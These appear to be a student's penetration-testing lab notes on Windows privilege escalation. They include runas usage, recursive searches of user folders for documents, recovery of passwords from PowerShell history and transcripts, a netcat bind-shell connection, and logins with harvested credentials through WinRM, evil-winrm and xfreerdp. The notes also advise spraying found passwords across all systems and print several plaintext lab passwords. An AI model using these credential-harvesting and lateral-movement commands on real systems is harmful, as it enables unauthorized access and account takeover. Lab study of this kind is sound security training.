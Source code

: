 runas allows us to run programs as a different user
```
runas /user:backupadmin cmd
runas /user:Administrator cmd
runas /user:offsec cmd
Get-ChildItem -Path C:\Users\steve\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```


VM 2
```
xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.195.221 /w:1200 /h:700
Get-ChildItem -Path C:\Users -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
username: richmond
password: GothicLifeStyle1337!
```


runas can be used with local or domain accounts as long as the user has the ability to log onto the system (GUI access)
```
runas /user:richmond cmd
```

- if the user has an active session, we can use psexec
- when you find a password, you should spray it against all users and systems as they are often reused

Powershell history VM 1 - Get powershell history
```
nc 192.168.195.220 4444
powershell
Get-History
```

Get path of saved history - use this because people clear history with Clear-History
```
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Name "Server02 Admin PW" -Secret "paperEarMonitor33@" 
type C:\Users\Public\Transcripts\transcript01.txt
```

with found password, use winRM to log in as that user (however we can't execute really any commands while in a bind shell) 
```
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
whoami
```

Get around this using evilwinRM
```
evil-winrm -i 192.168.195.220 -u daveadmin -p "qwertqwertqwert123\!\!"
xfreerdp /u:daveadmin /p:qwertqwertqwert123\!\! /v:192.168.195.220 /w:1200 /h:700
```
